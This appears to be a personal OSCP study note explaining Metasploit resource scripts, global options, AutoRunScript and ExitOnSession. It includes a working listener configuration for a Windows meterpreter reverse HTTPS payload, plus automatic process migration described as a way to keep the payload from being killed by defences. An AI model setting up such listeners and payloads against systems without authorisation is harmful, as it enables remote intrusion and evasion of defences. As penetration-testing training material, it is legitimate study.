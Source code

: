```yaml
---
aliases:
  - Metasploit Automation
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - metasploit
  - automation
author: Mehdi N Tehrani
creat_date: 2024-01-05
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Resource scripts
#resource_script #script #resource
Resource scripts can chain together a series of Metasploit console commands and Ruby code. 

- Metasploit pre-built scripts:
	- `/usr/share/metasploit-framework/scripts/resource`
Run built-in `portscan` scrips:
```msfconsole
setg rhosts <ip1> <ip2>
resource portscan.rc
```

Example `listener.rc`
```
use exploit/multi/handler
set payload windows/meterpreter_reverse_https
set lhost tun0
set lport 443

set AutoRunScript post/windows/manage/migrate
set ExitOnSession false
run -z -j
```

`-z`: make sure the session is setup before we interact with it

we can save this into `listener.rc` file and run it:
```sh
sudo msfconsole -r listener.rc
```

## global options
setting global variables: 
- `setg`
- `unsetg`
for example we can set `lhost` across all modules
	- `setg lhost tun0`

## AutoRunScript
#auto_run_script #autorunscript
we can configure the AutoRunScript option to automatically execute a module after a session was created.
```
set AutoRunScript post/windows/manage/migrate
```
This *AutoRunScript migrate* command will cause the spawned Meterpreter to automatically launch a background `notepad.exe` process and migrate to it. 
Automating process migration helps to **avoid situations where our payload is killed prematurely** either by *defensive mechanisms* or the *termination of the related process*.

## ExitOnSession
#exitonsession #exit_on_session
- to ensure that the listener keeps accepting new connections after a session is created:
```
set ExitOnSession false
```

